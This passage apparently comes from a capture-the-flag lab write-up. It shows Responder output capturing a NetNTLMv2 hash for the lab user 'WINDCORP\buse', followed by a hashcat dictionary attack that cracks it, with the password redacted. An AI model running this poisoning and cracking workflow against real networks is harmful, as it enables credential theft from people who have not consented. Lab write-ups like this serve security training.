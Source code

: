 ```
	Upstream Proxy             [OFF]

[+] Poisoning Options:
	Analyze Mode               [OFF]
	Force WPAD auth            [OFF]
	Force Basic Auth           [OFF]
	Force LM downgrade         [OFF]
	Fingerprint hosts          [OFF]

[+] Generic Options:
	Responder NIC              [tun0]
	Responder IP               [10.4.10.122]
	Challenge set              [random]
	Don't Respond To Names     ['ISATAP']



[HTTP] NTLMv2 Client   : 10.10.63.172
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:5443ae96d626b1cc:32720BE2D73651627C24948A995A2F94:01010000000000006E46913E756CD601C0BFA39F80292818000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0008003000300000000000000001000000002000004421246D62D059B753AE39BEBCC1C246311370D7A2A3ECF732FAAA901281DB780A00100000000000000000000000000000000000090000000000000000000000
[*] Skipping previously captured hash for WINDCORP\buse

```

### Cracking the hash

`$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

```
hashcat (v6.1.0) starting...
(...)
Dictionary cache hit:
* Filename..: /Users/julien.couvy/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

BUSE::WINDCORP:5443ae96d626b1cc...000000000:REDACTED

(...)
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: BUSE::WINDCORP:5443ae96d626b1cc:32720be2d73651627c2...000000
```

